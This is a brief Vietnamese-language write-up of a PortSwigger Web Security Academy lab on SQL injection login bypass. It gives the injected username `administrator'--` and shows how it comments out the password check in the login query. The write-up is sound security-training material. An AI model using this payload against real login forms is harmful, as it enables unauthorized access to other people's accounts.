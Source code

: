 # [Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

Lỗ hổng: Phía server không có bất kì nỗ lực nào ngăn cản tấn công SQLi ở module đăng nhập.

**exploit**:
1. Vào nơi đăng nhập tài khoản `....web-security-academy.net/my-account`
2. Đăng nhập với credential `administrator'--` và mật khẩu bất kì
=> sql query sẽ thành `SELECT * FROM users WHERE username = 'administrator'--' AND password = 'a'`
=> Solved